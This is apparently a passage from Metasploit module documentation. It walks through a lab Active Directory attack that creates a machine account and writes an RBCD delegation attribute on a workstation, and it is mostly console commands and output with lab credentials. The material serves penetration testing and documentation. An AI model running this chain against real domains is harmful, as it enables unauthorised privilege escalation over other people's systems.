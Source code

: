 ```msf
   ----          -----------
   ADD_COMPUTER  Add a computer account


msf6 auxiliary(admin/dcerpc/samr_account) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/dcerpc/samr_account) > set SMBUser sandy
SMBUser => sandy
msf6 auxiliary(admin/dcerpc/samr_account) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(admin/dcerpc/samr_account) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Using automatically identified domain: MSFLAB
[+] 192.168.159.10:445 - Successfully created MSFLAB\DESKTOP-QLSTR9NW$
[+] 192.168.159.10:445 -   Password: A2HPEkkQzdxQirylqIj7BxqwB7kuUMrT
[+] 192.168.159.10:445 -   SID:      S-1-5-21-3402587289-1488798532-3618296993-1655
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/samr_account) > use auxiliary/admin/ldap/rbcd
```

Now use the RBCD module to read the current value of `msDS-AllowedToActOnBehalfOfOtherIdentity`:

```msf
msf6 auxiliary(admin/ldap/rbcd) > set USERNAME sandy@msflab.local
BIND_DN => sandy@msflab.local
msf6 auxiliary(admin/ldap/rbcd) > set PASSWORD Password1!
BIND_PW => Password1!
msf6 auxiliary(admin/ldap/rbcd) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/ldap/rbcd) > set DELEGATE_TO WS01$
DELEGATE_TO => WS01$
msf6 auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] The msDS-AllowedToActOnBehalfOfOtherIdentity field is empty.
[*] Auxiliary module execution completed
```

Writing a new `msDS-AllowedToActOnBehalfOfOtherIdentity` value using the computer account created by `admin/dcerpc/samr_account`:

```msf
msf6 auxiliary(admin/ldap/rbcd) > set DELEGATE_FROM DESKTOP-QLSTR9NW$
DELEGATE_FROM => DESKTOP-QLSTR9NW$
msf6 auxiliary(admin/ldap/rbcd) > write
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] Successfully created the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
[*] Auxiliary module execution completed
```

